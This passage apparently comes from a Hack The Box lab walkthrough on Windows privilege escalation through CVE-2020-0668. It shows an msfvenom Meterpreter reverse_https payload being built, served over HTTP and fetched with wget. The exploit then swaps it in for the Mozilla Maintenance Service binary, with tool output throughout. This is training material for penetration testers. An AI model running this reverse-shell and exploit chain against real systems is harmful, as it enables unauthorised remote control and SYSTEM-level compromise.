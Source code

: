 4) Generating Malicious Binary

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 645 bytes
Final size of exe file: 7168 bytes
```

5) Hosting the Malicious Binary

```
python3 -m http.server 8080

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.43.13 - - [01/Mar/2022 18:17:26] "GET /maintenanceservice.exe HTTP/1.1" 200 -
10.129.43.13 - - [01/Mar/2022 18:17:45] "GET /maintenanceservice.exe HTTP/1.1" 200 -
```

6) Downloading the Malicious Binary

```
wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe
wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe
```

7) Running the Exploit

```
C:\htb> C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"                                       

[+] Moving C:\Users\htb-student\Desktop\maintenanceservice.exe to C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe

[+] Mounting \RPC Control onto C:\Users\htb-student\AppData\Local\Temp\nzrghuxz.leo
[+] Creating symbol links
[+] Updating the HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Tracing\RASPLAP configuration.
[+] Sleeping for 5 seconds so the changes take effect
[+] Writing phonebook file to C:\Users\htb-student\AppData\Local\Temp\179739c5-5060-4088-a3e7-57c7e83a0828.pbk
[+] Cleaning up
[+] Done!
```

8) Checking Permissions of New File

```
C:\htb> icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(F)
                                                                          BUILTIN\Administrators:(F)
                                                                          WINLPE-WS02\htb-student:(F)
```

